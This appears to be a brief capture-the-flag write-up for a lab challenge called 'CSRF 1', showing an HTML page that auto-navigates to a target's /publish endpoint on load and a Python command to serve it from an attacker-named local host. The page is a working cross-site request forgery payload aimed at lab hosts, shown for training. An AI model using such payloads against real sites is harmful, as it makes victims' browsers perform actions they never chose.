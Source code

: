 # CSRF 1

Create a html page to serve, which makes the GET request via **top-level navigation**:

index.html:

```html
<!DOCTYPE html>
<html>
<body onload="window.location='http://challenge.localhost/publish'"></body>
</html>
```

Run in the directory of index.html:

```shell
python3 -m http.server 1337 --bind hacker.localhost
```
